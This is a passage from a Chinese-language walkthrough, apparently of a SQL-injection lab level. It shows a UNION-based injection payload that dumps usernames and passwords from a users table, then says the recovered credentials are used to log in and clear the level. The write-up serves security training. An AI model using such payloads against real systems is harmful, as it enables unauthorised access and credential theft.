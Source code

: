 
### 2.11.5. **爆出账户密码**

这里通过爆出的字段然后去查询以下字段中的数据。

```
payload：' union select USERNAME_VKPLRN,PASSWORD_FLAGFE from USERS_YDSHJO--
```

![img](assets/%E5%9B%BE%E7%89%87%2041.png) 

### 2.11.6. **过关**

这里把获取到的账户密码进行登录就可以过关了。

![img](assets/%E5%9B%BE%E7%89%87%2042.png) 
